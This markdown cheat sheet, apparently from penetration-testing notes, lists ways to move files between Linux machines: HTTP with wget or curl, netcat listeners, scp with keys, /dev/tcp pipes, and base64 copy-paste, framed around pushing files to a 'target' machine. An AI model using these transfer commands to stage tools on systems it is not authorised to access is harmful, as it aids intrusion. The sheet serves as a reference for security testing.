 ```yaml
---
title: "File Transfer (Linux To Linux)"
date: 2024-6-26
tags: ["scp", "Http File Transfer", "File Transfer", "nc"]
---
```


{{< tab set1 tab1 active >}}HTTP{{< /tab >}}
{{< tab set1 tab2 >}}nc{{< /tab >}}
{{< tab set1 tab3 >}}scp{{< /tab >}}
{{< tab set1 tab4 >}}PIPE{{< /tab >}}
{{< tab set1 tab5 >}}Base64{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Start a local HTTP server
python3 -m http.server <LOCAL_PORT>
```

```console
# In target Linux machine
wget <LOCAL_IP>:<LOCAL_PORT>/<FILE>
```

```console
# In target Linux machine
curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -o <REMOTE_DEST_PATH>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# In our local Linux machine
nc -lvnp <LOCAL_PORT> < <FILE>
```

```console
# In target Linux machine
nc -w3 <LOCAL_IP> <LOCAL_PORT> > <FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### Remote to Local

```console
# With password
scp <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

```console
# With id_rsa
scp -i id_rsa <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

#### Local to Remote

```console
# With password
scp <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

```console
# With id_rsa
scp -i id_rsa <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

#### Local to Remote

```console
# In our local Linux machine
cat <FILE> | nc -lnvp <LOCAL_PORT>
```

```console
# In target Linux machine
exec 3<>/dev/tcp/<LOCAL_IP>/<LOCAL_PORT>
```

```console
# Ctrl+C to interrupt after some time
cat <&3 > <FILE>
```

```console
# Check
md5sum <FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

#### Small binary

```console
# Base64 encode binary
cat <FILE> | base64 -w0
```

```console
# Copy and paste the base64 encoded binary
echo -n '<BASE64_FILE>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

{{< /tabcontent >}}
